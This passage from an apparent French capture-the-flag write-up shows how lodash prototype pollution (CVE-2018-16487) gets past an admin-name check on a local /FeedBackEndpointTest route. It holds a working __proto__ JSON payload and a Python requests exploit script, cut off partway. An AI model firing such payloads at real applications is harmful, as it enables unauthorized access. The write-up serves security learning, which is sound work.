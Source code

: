 #### Prototype Pollution Bypass


on trouve donc une nouvelle route vers /FeedBackEndpointTest. 

Seulement la page semble être accessible uniquement par **'SuperAdminForSuperWebSite__'**

La tâche fait également référence à `lodash` et un status `urgent`. 

Bizarre, regardons s'il existe des vulnérabilités dessus : 

![image](https://hackmd.io/_uploads/HJexPRl4T.png)

Il existe beaucoup de vulnérabilités. Mais une prototype pollution semble plus probable dans notre cas. (Bypass de check).

> CVE-2018-16487 : A prototype pollution vulnerability was found in lodash <4.17.11 where the functions merge, mergeWith, and defaultsDeep can be tricked into adding or modifying properties of Object.prototype.


Avec une request CURL : 


```
curl -X OPTIONS http://localhost:4444/FeedBackEndpointTest && echo ''
POST,GET,HEAD
```

On peut voir que l'endpoint accepte des requêtes POST et GET. 

On va donc créer une variable "globale" SuperAdminForSuperWebSite__ en utilisant le principe du prototype pollution. 
Voici le payload : 

```json
{
        "Object": {
            "prototype": {
                "__proto__": {
                    "SuperAdminForSuperWebSite__": True
                }
            }
        
    }
}
```

On effectue donc une première requête POST vers l'endpoint puis une requête GET : 

```py
import requests

payload = {
        "Object": {
            "prototype": {
                "__proto__": {
                    "SuperAdminForSuperWebSite__": True
                }
            }
        
    }
}

def exploit(host, payload):
    url = host + '/FeedBackEndpointTest'
    
    print( requests.get(url) )
    print( requests.post(url, json=payload))

if __name__ == '__main__':
```